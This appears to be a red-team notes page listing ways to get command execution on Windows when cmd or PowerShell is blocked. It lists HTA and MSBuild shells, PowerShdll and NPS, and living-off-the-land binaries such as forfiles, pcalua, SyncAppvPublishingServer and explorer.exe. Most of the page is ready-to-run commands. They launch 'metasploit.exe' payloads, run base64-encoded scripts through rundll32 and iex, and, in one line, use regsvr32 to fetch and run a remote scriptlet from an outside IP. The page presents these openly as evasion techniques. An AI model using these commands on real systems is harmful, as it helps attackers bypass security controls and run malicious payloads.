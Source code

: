 ```yaml
---
description: Different options to cmd and powershell
---
```


# Alternatives to command prompt

## HTA Shell

its text, so you could copy paste the text into notepad, save as a "shell.hta" using the quotes to enforce file extension 

then file open on notepad right click the shell.hta and open 

Code: [https://raw.githubusercontent.com/nccgroup/OneLogicalMyth\_Shell/master/OneLogicalShell.hta](https://raw.githubusercontent.com/nccgroup/OneLogicalMyth_Shell/master/OneLogicalShell.hta)

## MSBuildShell

code: [https://github.com/Cn33liz/MSBuildShell](https://github.com/Cn33liz/MSBuildShell)

execute:

```text
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe C:\Scripts\MSBuildShell.csproj
```

## Powershell Alternatives

### PowerShdll

Link: 

[https://github.com/p3nt4/PowerShdll](https://github.com/p3nt4/PowerShdll) 

#### Example: 

`rundll32.exe PowerShdll.dll,main` 

#### dll mode: 

```text
rundll32 PowerShdll,main <script> 
rundll32 PowerShdll,main -h      Display this message 
rundll32 PowerShdll,main -f <path>       Run the script passed as argument 
rundll32 PowerShdll,main -w      Start an interactive console in a new window (Default) 
rundll32 PowerShdll,main -i      Start an interactive console in this console 
```

If you do not have an interactive console, use -n to avoid crashes on output 

Alternatives \(Credit to SubTee for these techniques\): 

```text
x86 - C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U PowerShdll.dll 
x64 - C:\Windows\Microsoft.NET\Framework64\v4.0.3031964\InstallUtil.exe /logfile= /LogToConsole=false /U PowerShdll.dll 
x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe PowerShdll.dll 
x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regsvcs.exe PowerShdll.dll 
x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U PowerShdll.dll 
x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /U PowerShdll.dll 
regsvr32 /s  /u PowerShdll.dll -->Calls DllUnregisterServer 
regsvr32 /s PowerShdll.dll --> Calls DllRegisterServer 
```

####  exe mode 

Usage: 

```text
PowerShdll.exe <script> 
PowerShdll.exe -h      Display this message 
PowerShdll.exe -f <path>       Run the script passed as argument 
PowerShdll.exe -i      Start an interactive console in this console (Default) 
```

Examples 

Run base64 encoded script 

`rundll32 Powershdll.dll,main [System.Text.Encoding]::Default.GetString([System.Convert]::FromBase64String("BASE64")) ^| iex` 

### PowerLine

Link: [https://github.com/fullmetalcache/PowerLine ](https://github.com/fullmetalcache/PowerLine%20)

### NPS

Not PowerShell - When powershell is blocked 

Link:  [https://github.com/Ben0xA/nps](https://github.com/Ben0xA/nps) 

#### Usage 

```text
nps.exe "{powershell single command}" 
nps.exe "& {commands; semi-colon; separated}" 
nps.exe -encodedcommand {base64_encoded_command} 
nps.exe -encode "commands to encode to base64" 
nps.exe -decode {base64_encoded_command} 
```

**Single Commands:** 

```text
 c:\Downloads>nps.exe Get-Date 
 12/18/2015 2:19:37 PM 
```

## CMD Alternatives

### cmd.dll

[https://blog.didierstevens.com/2010/02/04/cmd-dll/](https://blog.didierstevens.com/2010/02/04/cmd-dll/)

Example:

`rundll32.exe cmd.dll,main` 

### forfiles

The “forfiles” is a command utility which can select multiple files and run a command on them. It is typically used in batch jobs but it could be abused to execute an arbitrary command or an executable. The parameters “/p” and “/m” are used to perform a search in the windows directory “System32” and on the mask “calc.exe” even though the default search mask is \*. Anything after the “/c” parameter is the actual command that is executed.

`forfiles /p c:\windows\system32 /m calc.exe /c C:\tmp\metasploit.exe`

Credit:[https://pentestlab.blog/2020/07/06/indirect-command-execution/](https://pentestlab.blog/2020/07/06/indirect-command-execution/)

### pcalua

The program compatibility assistant is a windows utility that runs when it detects a software with compatibility issues. The utility is located in “C:\Windows\System32” and can execute commands with the “-a” argument.

`pcalua.exe -a C:\tmp\metasploit.exe`

### SyncAppvPublishingServer

The “SyncAppvPublishingServer” initiates the Microsoft application virtualization \(App-V\) publishing refresh operation. However it can be used as a non-directly method to execute commands for evasion. In the example below the execution occurs from PowerShell and the “Start-Process” cmdlet is used to run the executable.

`SyncAppvPublishingServer.vbs "n; Start-Process C:\tmp\metasploit.exe"`

It is also possible to execute a malicious payload from a remote location by using the “regsvr32” method since the “SyncAppvPublishingServer” will execute anything that is enclosed in the double quotes.

```text
SyncAppvPublishingServer.vbs "Break; regsvr32 /s /n /u /i:http://192.168.254.158:8080/jnQl1FJ.sct scrobj.dll"
```

### explorer.exe

The “explorer.exe” can be utilized as a method of execution. Furthermore, the executed payload will create a process on the system that will have as a parent process “explore.exe” instead of “cmd.exe“.

```text
explorer.exe C:\tmp\metasploit.exe 
explorer.exe /root,"C:\tmp\metasploit.exe" 
```

